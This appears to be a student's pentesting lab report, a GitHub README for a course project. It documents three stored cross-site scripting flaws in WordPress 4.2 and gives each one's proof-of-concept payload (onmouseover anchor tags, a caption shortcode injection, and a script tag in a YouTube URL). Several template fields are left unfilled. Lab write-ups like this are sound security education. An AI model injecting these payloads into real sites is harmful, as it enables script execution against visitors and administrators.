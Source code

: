 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: Large text file in the comment will cause the website to break.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![]()
  - [ ] Steps to recreate: Go to the wordpress website (not as admin), view a post and fill in the comment: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  [64 kb]'></a>
 where [64 kb] is a 64 kb text file. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: When hovering over the post's link, an alert popped up.
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Make a new post as admin and input into the body of the post: <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
Then submit and view the post to see an alert come up when hovering over the post. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: When embeding a Youtube URL in the post with a script alert, an alert will come up.
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: When making a new post, input in the body: https://www.youtube.com/watch?v=<SCRIPT>alert('XSS')</SCRIPT> 
Then publish the post and view the post on the website, an alert should come up. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
